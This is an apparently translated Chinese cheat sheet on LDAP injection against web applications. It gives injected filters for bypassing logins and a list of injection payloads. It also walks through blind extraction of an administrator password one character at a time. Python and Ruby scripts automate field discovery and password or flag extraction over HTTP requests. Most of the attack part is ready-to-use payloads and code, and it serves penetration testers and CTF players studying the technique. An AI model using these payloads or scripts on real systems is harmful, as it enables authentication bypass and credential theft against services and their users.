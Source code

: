 # LDAP注入攻击

> LDAP注入是一种攻击方式，用于利用基于用户输入构建LDAP语句的Web应用程序。当应用程序未能正确消毒用户输入时，可以使用本地代理修改LDAP语句。

## 概述

* [利用方法](#exploitation)
* [有效载荷](#payloads)
* [盲利用](#blind-exploitation)
* [默认属性](#defaults-attributes)
* [利用userPassword属性](#exploiting-userpassword-attribute)
* [脚本](#scripts)
  * [发现有效的LDAP字段](#discover-valid-ldap-fields)
  * [特殊盲LDAP注入](#special-blind-ldap-injection)

## 利用方法

示例1。

```sql
user  = *)(uid=*))(|(uid=*
pass  = password
query = (&(uid=*)(uid=*))(|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))
```

示例2。

```sql
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

## 有效载荷

```text
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

## 盲利用

我们可以通过绕过登录来提取信息

```sql
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

## 默认属性

可以在注入中使用 `*)(ATTRIBUTE_HERE=*`

```bash
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```

## 利用userPassword属性

`userPassword` 属性不是像 `cn` 属性那样的字符串，而是一个OCTET STRING（八位字节字符串）
在LDAP中，每个对象、类型、操作符等都是由一个OID引用的：octetStringOrderingMatch (OID 2.5.13.18)。

> octetStringOrderingMatch (OID 2.5.13.18)：一种排序匹配规则，它将执行两个八位字节字符串值的逐位比较（以大端排序），直到发现差异。在第一个零位在一个值中找到而在另一个值中找到一个一位的情况下，将认为具有零位的值小于具有一位值的值。

```bash
userPassword:2.5.13.18:=\xx (\xx 是一个字节)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx
```

## 脚本

### 发现有效的LDAP字段

```python
#!/usr/bin/python3

import requests
import string

fields = []

url = 'https://URL.com/'

f = open('dic', 'r') #打开常见属性的单词列表文件
wordl = f.read().split('
')
f.close()

for i in wordl:
    r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #类似于 (&(login=*)(ITER_VAL=*))\x00)(password=bla))
    if 'TRUE CONDITION' in r.text:
        fields.append(str(i))

print(fields)
```

参考 [5][5]

### 特殊盲LDAP注入（不使用"*"）

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] 寻找数字 " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] 标志: " + flag)
            break
```

参考 [5][5]

```ruby
#!/usr/bin/env ruby

require 'net/http'
alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

flag = ''

(0..50).each do |i|
  puts("[i] 寻找数字 #{i}")
  alphabet.each do |char|
    r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
    if /TRUE CONDITION/.match?(r)
      flag += char
      puts("[+] 标志: #{flag}")
      break
    end
  end
end
```

作者：[noraj](https://github.com/noraj)

## 参考资料

* [OWASP LDAP注入](https://www.owasp.org/index.php/LDAP_injection)
* [LDAP Blind Explorer](http://code.google.com/p/ldap-blind-explorer/)
* [ECW 2018 : Write Up - AdmYSsion (WEB - 50) - 0xUKN](https://0xukn.fr/posts/writeupecw2018admyssion/)
* [Quals ECW 2018 - Maki](https://maki.bzh/courses/blog/writeups/qualecw2018/)
* [如何使用OpenLDAP实用程序管理和使用LDAP服务器](https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities)
* [如何配置OpenLDAP并执行管理性LDAP任务](https://www.digitalocean.com/community/tutorials/how-to-configure-openldap-and-perform-administrative-ldap-tasks)
* 通过LDAP进行SSH密钥认证
  - [如何为openssh-lpk设置LDAP服务器](https://openssh-ldap-pubkey.readthedocs.io/en/latest/openldap.html)
  - [openssh-lpk.ldif](https://github.com/Lullabot/openldap-schema/blob/master/openssh-lpk.ldif)
  - [在Ubuntu 14.04上设置OpenLDAP服务器与OpenSSH-LPK](https://blog.shichao.io/2015/04/17/setup_openldap_server_with_openssh_lpk_on_ubuntu.html)
  - [使用LDAP进行SSH密钥认证](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap)
  - [法语] [SSH和LDAP](https://wiki.lereset.org/ateliers:serveurmail:ldap-ssh)
  - [OpenLDAP中的SSH公钥](http://pig.made-it.com/ldap-openssh.html)